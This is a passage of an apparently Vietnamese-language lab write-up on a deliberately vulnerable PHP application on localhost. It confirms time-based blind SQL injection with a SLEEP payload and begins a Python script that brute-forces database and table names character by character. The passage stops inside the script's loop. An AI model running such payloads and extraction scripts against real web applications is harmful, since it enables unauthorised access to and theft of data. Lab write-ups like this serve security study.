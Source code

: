 Thử nghiệm giả thuyết liệu có bị SQLi không:

![Bị SQLi với payload `1 AND SLEEP(20);#`](images/image%2013.png)

Bị SQLi với payload `1 AND SLEEP(20);#`

# Exploit

Đầu tiên cần brute force bằng cách sử dụng Time based Blind SQLi để lấy tên của database, tên các bảng:

```python
import requests
import string
import time
import sys
url = "http://localhost/sql-injection-lab/1/friendadd.php"
cookies = {"PHPSESSID": "47jhemumu2hib038cmlrnp3gml"}
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36",
    "Content-Type": "application/x-www-form-urlencoded",
    "Referer": "http://localhost/sql-injection-lab/1/friendadd.php"
}
# Ký tự brute-force
char_set = string.ascii_lowercase + string.ascii_uppercase + string.digits + "_" + "{}!@#$%^&*()_+-=[]|;:,.<>?/'\""
# Thời gian phản hồi để xác định payload đúng
TIME_THRESHOLD = 20
# Hàm brute-force ký tự SQL
def brute_force_sql(query_template, description):
    extracted_value = ""
    index = 1
    while True:
        found = False
        for char in char_set:
```